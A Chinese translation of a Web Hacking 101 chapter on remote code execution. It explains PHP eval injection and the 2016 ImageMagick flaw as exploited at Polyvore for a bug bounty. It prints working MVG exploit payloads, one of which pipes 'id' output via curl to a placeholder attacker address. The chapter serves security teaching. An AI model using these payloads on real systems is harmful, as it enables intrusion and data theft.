 ## **0x11-程式碼執行**
>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0

描述
遠端程式碼執行是指註入由漏洞應用解釋和執行的程式碼。這通常由用戶提交輸入，應用使用它而沒有任何類型的處理或驗證而導致。
看一下這行程式碼：

```php
$var = $_GET['page'];
eval($var);
```
這裡，漏洞應用可能使用 URL `index.php?page=1`，但是，如果用於輸入了`index.php?page=1;phpinfo()`，應用就會執行`phpinfo`函數，並返回其內容。
<p>

與之類似，遠端程式碼執行有時用於指代命令註入，OWASP 區分了這兩點。使用命令駐入，根據 OWASP，漏洞應用在主機操作系統上執行任何命令。同樣，這也由不合理處理和驗證用戶輸入導致，這會導致用戶輸入傳遞給操作系統的命令。

<p>

例如 PHP 中，這可能表現為用戶輸入傳遞給`system`函數。


## **示例**

### **1. Polyvore ImageMagick**
ImageMagick 是個軟體包，通常用於處理圖像，例如剪裁、縮放等等。 PHP 的 imagick、Ruby 的 rmagick 以及 paperclip，以及 NodeJs 的 imagemagick 都利用了它。在 2016 年 4 月，該庫中發現了多個漏洞，其中可利用的漏洞之一就是執行遠端代碼，這就是我關註的。

簡單來說，ImageMagick 並沒有合理地傳給他的過濾文件名稱，並且最終用於執行system方法呼叫。因此，攻擊者利益傳入命令來執行，就像`https://example.com"|ls"-la`，它會被執行。一個來自 ImageMagick 的例子是：

```
convert 'https://example.com"|ls "-la' out.png
```

現在，有趣的是，ImageMagick 為 MVG（Magick Vectire Graphics）文件定義了自己的語法。所以，攻擊者能夠創建文件`exploit.mvg`，帶有下列程式碼：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls "-la)'
pop graphic-context
```

這之後會傳給該庫，並且如果站點存在漏洞，程式碼會執行並列出目錄中的文件。

了解其背景之後，Ben Sadeghipour 測試了 Yahoo acquisition 站點以及 Polyvore 是否存在漏洞。就像他博文中所述，Ben 首先在它所控制的本地機器上測試了該漏洞，來確認mvg文件是否正常工作。這是他使用的程式碼：

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://SOMEIPADDRESS:80
80/ -d @- > /dev/null`'
pop graphic-context
```

這裡你可以看到，它使用了 CURL 庫來呼叫 SOMEIPADDRESS（將其修改為你服務器的地址）。如果成功，你就會得到像這樣的響應：

![1](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/15-1.jpg)

Ben Sadeghipour ImageMagick 測試的服務器響應
下面 Ben 瀏覽了 Polyvore，將文件上傳為它的資料頭像，並在它的服務器上收到了這個響應：

![1](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/15-2.jpg)

Ben Sadeghipour Polyvore ImageMagick 響應
>重要結論
>
>閱讀是成功滲透的重要組成部分，這包括閱讀軟體漏洞和常見漏洞，以及披露（CVE 標識符）。
>當你碰到沒有安裝安全更新的站點時，了解之前的漏洞能夠幫助你。
>這裡， Yahoo 已經修補了服務器，但是沒有正確完成（我找不到關於這是什麽意思的解釋）。
>一次你，了解 ImageMagick 漏洞讓 Ben 特地以這個軟體為目標，並得到了 $2000 的獎金。

## **總結**
遠端代碼執行，就像其他漏洞一樣，通常是用戶輸入沒有合理驗證和處理的結果。這裏提供的例子中，ImageMagick 沒有合理轉義可能為惡意的內容。它和 Ben 對該漏洞的知識一起，讓他能夠特地尋找和測試一些漏洞站點。對於搜索這些類型的漏洞來說，沒有簡單的答案。要註意發布的 CVE，並且留意站點所使用的軟件，它們可能會過時，也可能存在漏洞。